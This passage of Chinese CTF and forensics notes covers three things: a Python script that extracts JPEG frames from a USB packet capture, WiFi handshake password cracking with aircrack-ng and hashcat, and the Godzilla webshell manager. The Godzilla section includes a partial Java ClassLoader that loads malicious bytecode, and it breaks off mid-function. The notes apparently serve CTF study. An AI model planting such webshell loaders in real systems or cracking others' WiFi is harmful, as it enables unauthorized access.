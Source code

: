 ```Python
from scapy.all import * # 处理网络数据包
from pwn import u32, u64, u16, u8 # 原始字节数据转换为相应长度的无符号整数

packets = rdpcap('flag.pcapng') # 加载
con = b'' # 数据总和

for pkt in packets:
    info = pkt.raw_packet_cache # 字节数据
    offset_addr = u16(info[:2]) # 2字节: USBPcap pseudoheader length
    packet_count = u32(info[0x1f:0x1f+4]) # 4字节: Isochronous transfer number of packets
    
    packet_lens = []
    for i in range(packet_count):
        # 子包的偏移量 0x27: 第一个子包起始位置, 0xc:每个子包头部长(不包括数据)
        off = u32(info[0x27+i*0xc:0x27+i*0xc+4])
        # 子包中数据长度
        packet_len = u32(info[0x27+i*0xc+4:0x27+i*0xc+8])
        packet_lens.append((off, packet_len))

    for off, packet_len in packet_lens: # 每个JPEG文件字节数据
        con += info[offset_addr+off+0xc:offset_addr+off+packet_len]

tmp = con.split(b'\xff\xd8\xff\xe0\x00\x10JFIF')
a = 0
for i in tmp:
    a += 1
    with open(f'./imgs/{a}.jpeg', 'wb') as f:
        f.write(b'\xff\xd8\xff\xe0\x00\x10JFIF' + i)
```

### WIFI

协议：**802.11**，WPA或WEP加密后数据包

```bash
# kali
$ aircrack-ng xxx.cap
   #  BSSID              ESSID                     Encryption
   1  xx:xx:xx:xx:xx:xx  XXXXXXX                   WPA (1 handshake)
```

**无线握手包WIFI密码破解**

`https://hashcat.net/cap2hashcat/`在线将`.cap`文件转换为`.hc22000`格式用于`hashcat`破解密码

### 哥斯拉

webshell管理工具，生成免杀木马，包括base64以及md5函数等

```java
String xc = "key";
String pass = "password";
String md5 = md5(pass + xc);

class X extends ClassLoader {
    public X(ClassLoader z) { // JAVA类通过类加载器ClassLoader动态加载到JVM中
        super(z); // X类继承父类ClassLoader z的特性
    }

    public Class Q(byte[] cb) { // 接收字节码
        // 调用父类的defineClass将字节码转换成定义一个类对象，构造恶意类
        return super.defineClass(cb, 0, cb.length);
    }
}
// 对字节数组加密或解密
public byte[] x(byte[] s, boolean m) {
```